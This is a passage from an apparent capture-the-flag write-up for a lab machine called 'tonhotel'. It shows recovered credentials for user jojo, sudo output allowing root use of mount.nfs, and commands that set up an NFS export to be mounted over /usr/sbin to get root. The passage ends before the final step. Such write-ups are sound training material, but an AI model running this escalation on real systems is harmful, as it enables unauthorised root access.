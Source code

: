 We can see this on the picture:

![](cybersecurity/images/Pasted%2520image%252020250702182020.png)

We got credentials for `jojo`:

```
jojo:kingofhellskitchen
```

![](cybersecurity/images/Pasted%2520image%252020250702182056.png)

If we check our sudo permissions, we notice this:

```
jojo@tonhotel:/tmp$ sudo -l
[sudo] password for jojo:
Matching Defaults entries for jojo on tonhotel:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jojo may run the following commands on tonhotel:
    (root) /usr/sbin/mount.nfs
```


This allow us to mount a `NFS` share, by doing this, we can achieve root, we will basically mount a writable `NFS` over `/usr/sbin` and replace the `mount.nfs` file, on this way, we can achieve root, let's do it:

We need to install `nfs-kernel-server` and enable it:

```bash
sudo apt install -y nfs-kernel-server
sudo systemctl enable --now rpcbind nfs-server
```

First, let's create a directory on our vm:

```
mkdir /tmp/share
sudo chown nobody:nogroup /tmp/share
sudo chmod 777 /tmp/share
```

Now, modify `/etc/nfs.conf` with:

```
[nfsd]
port=443
```

![](cybersecurity/images/Pasted%2520image%252020250702190016.png)


We need to modify `/etc/exports` with:

```
/tmp/share *(rw,sync,no_subtree_check)
```
